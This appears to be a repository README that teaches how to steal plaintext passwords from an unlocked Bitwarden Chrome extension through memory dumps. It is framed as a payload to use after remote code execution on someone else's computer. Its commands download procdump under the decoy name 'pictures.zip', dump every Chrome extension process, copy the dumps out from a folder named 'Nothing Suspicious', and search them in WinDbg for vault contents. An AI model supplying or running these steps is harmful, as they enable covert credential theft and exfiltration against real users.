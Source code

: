 # Retrieving and Analyzing Memory to View Passwords in a Password Manager

## About This Tutorial
This tutorial will teach you how to get plaintext passwords from an unlocked Bitwarden Web Vault Chrome browser extension using memory analysis. The idea here is that this can be used as a payload for a RCE to get the  Bitwarden passwords of a computer in use. 

### What this is **NOT**:
 - This does NOT teach you how to retreive or recover a master password for a bitwarden vault
 - This is NOT an exploit for Bitwarden, Chrome, or the Kernel

### Prerequisites to this Tutorial:

 - Windbg is installed on the Host computer, how to install this software can be found [here](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/).
 - You have access to an elevated command prompt on the target computer, or can otherwise run commands with elevated priveleges
 - The target computer has an internet connection 

## Step 1: Get a Debugger to Copy Chrome Memory
For this tutorial I'm going to use procdump, it's quite compact and doesn't require an installer, so it is perfect for this scenario. On the target computer, run the command:

    curl https://download.sysinternals.com/files/Procdump.zip -o pictures.zip

Here we just downloaded procdump as a file called "pictures.zip", an unsuspecting user might not immediately recognize this as a new file.

Next we will want to extract the .zip, we can use tar for this:

    tar -xf pictures.zip

## Step 2: Create a Memory Dump of Chrome Extensions
We are going to use wmic to get the process IDs of the running chrome extension processes, then use procdump to dump the memory to some files. We can do this in one command:

    for /f %i IN ('wmic.exe process where "CommandLine Like '%--extension-process%' and name Like 'chrome%'" get ProcessID') do (procdump.exe -accepteula -ma %i)

The output will be some .dmp files that you should copy to your Host computer. You can use xcopy, robocopy, or whatever command you'd like to copy the file to a network location. I'm going to give an example where we ran procdump in an empty folder called "Nothing Suspicious" in the ProgramData directory:

    xcopy "C:\ProgramData\Nothing Suspicious" [Network Drive Path] /s /e


## Step 3: Analyze Memory Dump to Retrieve Plaintext Passwords

On the Host computer, open up Windbg and drag and drop the memory dump into the window. 

In the command line of windbg, enter the following command:

    s-a 0`00000000 L?5000000000000 [KEYWORD]

This searches for the ascii text that is correlated with the  from the first memory address, and the search will include all of the memory addresses in the dump, unless the file size exceeds ~5GB (but in that case you have a whole other issue). Sample keywords can be found in the examples for this repo.

Copy down one of the memory addresses outputted from the previous command. Then go to View > Memory to open up the memory viewer. In the address input box, paste the address you just copied. From here you can see your vault in plaintext.

From here you can use .writemem to write the memory to file for easy viewing, the syntax is as follows:

    .writemem c:\path\to\save\export.txt startingAddress endingAddress

You can find sample memory ranges for their corresponding dump file in the Info text document. I have a few examples here using different password managers, feel free to play around with the dumps. The usernames and passwords are fake.

